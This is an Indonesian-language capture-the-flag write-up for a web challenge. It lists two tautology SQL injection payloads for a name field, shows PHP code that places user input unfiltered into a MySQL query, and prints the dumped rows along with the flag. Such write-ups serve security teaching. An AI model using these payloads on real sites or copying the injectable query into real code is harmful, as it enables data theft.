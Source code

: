 <h1><b>Penyuka Warna</b></h1>
<pre>
Notice: Challenge ini sudah di fix. Enjoy ;D. Mimin punya list orang-orang penyuka warna. Nah dicoba deh nih

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal11/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Input Syntax SQL Injection pada colomn Nama, Contoh</p>
<pre>
1. 'or''='
2. 1'or'1
</pre>
<p>Kedua syntak query diatas akan selalu menghasilkan nilai True, dan Berikut gambaran source code PHP pada Challenge</p>

```php
include "koneksi.php";
$nama = $_GET['nama'];
if (isset($nama))
{
  $query = mysqli_query($conn ,"select * from Penyuka_warna WHERE Nama='$nama';");
  while($row = mysqli_fetch_array($query))
  {
    echo '</br>Nama : '.$row['Nama'];
    echo '</br>Penyuka Warna : '.$row['Warna'].'</br>';
  }

}
?>
```
<p align='justify'>Dari source code dapat dilihat bahwa query yang dilakukan sederhana saja tanpa filter, yang jika diinputkan query SQL Injection maka akan menampilkan seluruh query pada Table Database, seperti contoh hasil Injection berikut</p>
<pre>
Nama : Doni
Penyuka Warna : Merah

Nama : Adi
Penyuka Warna : Kuning

Nama : Bayu
Penyuka Warna : Orange

Nama : Cira
Penyuka Warna : Hijau

Nama : CTFR{l1ttl3_sql_1nj3ct10n}
Penyuka Warna : Flag

Nama : Mela
Penyuka Warna : Pink

Nama : Zula
Penyuka Warna : Merah

Nama : Pari
Penyuka Warna : Ikan
</pre>
<h3><b>Flag</b></h3>
<pre>
CTFR{l1ttl3_sql_1nj3ct10n}
</pre>
